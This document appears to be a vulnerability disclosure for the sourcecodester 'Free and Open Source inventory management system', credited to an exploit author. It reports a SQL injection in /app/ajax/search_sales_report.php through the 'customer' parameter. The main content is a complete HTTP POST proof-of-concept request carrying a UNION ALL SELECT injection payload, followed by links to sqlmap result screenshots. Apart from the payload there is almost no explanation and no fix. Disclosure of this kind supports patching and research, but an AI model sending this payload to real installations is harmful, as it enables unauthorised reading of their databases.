 ### Free and Open Source inventory management system - SQLi
### Date: 2024-02/26
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
### Tested on: MacOs13.5 + phpstudy

# /app/ajax/search_sales_report.php（SQL injections）
/app/ajax/search_sales_report.php SQL injection exists for parameter customer

### Sample request POC #1

```
POST /app/ajax/search_sales_report.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 43
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d2ms7dmo84iasdvoq0rhinhrl2
Connection: close

customer=-9350 UNION ALL SELECT 9630,9630,9630,9630,CONCAT(0x717a626b71,0x764248434c67444f4a7050646d6268436f486c7456587348744242525a66715147646b6369744a6c,0x717a767a71),9630,9630,9630,9630,9630,9630,9630,9630,9630#&issuedate=1-100
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927078851.jpg "Free and Open Source inventory management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927196358.jpg "Free and Open Source inventory management system")
